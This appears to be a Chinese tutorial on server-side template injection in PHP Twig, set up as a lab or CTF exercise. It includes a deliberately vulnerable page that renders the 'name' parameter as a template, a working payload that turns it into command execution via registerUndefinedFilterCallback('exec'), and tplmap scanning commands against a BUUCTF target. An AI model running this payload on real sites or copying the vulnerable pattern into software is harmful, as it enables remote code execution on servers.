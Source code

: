 ![](img/5.png)

靶场搭建代码:
```php
<?php
//header('Content-type:text/html;charset=utf-8');
@error_reporting(0);

if (isset($_GET['name'])) {
    require_once dirname(__FILE__) . '/lib/Twig/Autoloader.php';
    Twig_Autoloader::register(true);
    try {
        $name = @$_GET['name'];
        $loader = new Twig_Loader_String();
        $twig = new Twig_Environment($loader);
        $result = $twig->render($name);
        echo 'Hello '.$result;
    }catch (Exception $e){
        die('错误提示：'.$e->getMessage());
    }
}
```

访问index.php 输入`?name=张三` 回显出 `hello 张三`。

在目标页面输入
```
?name={{7*7}}
```
回显 49 测试输入执行命令

```

```

命令行执行命令
```
?name={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```



### 使用工具测试注入

[SSTI检测工具](https://github.com/epinna/tplmap)

工具是python2的 (安装的时候可没把我坑惨，好几个教学都说是py3，老复制粘贴了。)

[简单案例](https://www.cnblogs.com/LEOGG321/p/13441283.html)

语句：
```bash
pip install --upgrade pip # 先更新一下pip 如果是最新的就跳过
pip install -r requirements.txt # 安装依赖
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' # 在存在注入或者想要测试的地方加* 和sqlmap很像。

```
